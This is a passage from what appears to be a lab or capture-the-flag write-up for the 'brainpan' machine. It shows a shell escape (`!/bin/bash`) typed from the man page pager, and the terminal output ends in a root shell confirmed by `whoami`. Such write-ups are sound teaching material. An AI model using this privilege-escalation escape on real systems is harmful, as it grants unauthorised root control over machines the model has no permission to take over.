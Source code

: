 In here, after quit the main page, we can execute `!/bin/bash` to run shell within the privilege.

``` bash
AUTHOR
       Written by Richard Mlynarik.

REPORTING BUGS
       Report whoami bugs to bug-coreutils@gnu.org
       GNU coreutils home page: <http://www.gnu.org/software/coreutils/>
 Manual page whoami(1) line 1 (press h for help or q to quit)!/bin/bash
!/bin/bash                                                                                                                                                                 
root@brainpan:/usr/share/man# whoami                                                                                                                                       
whoami                                                                                                                                                                     
root                                                                                                                                                                       
root@brainpan:/usr/share/man# 
```
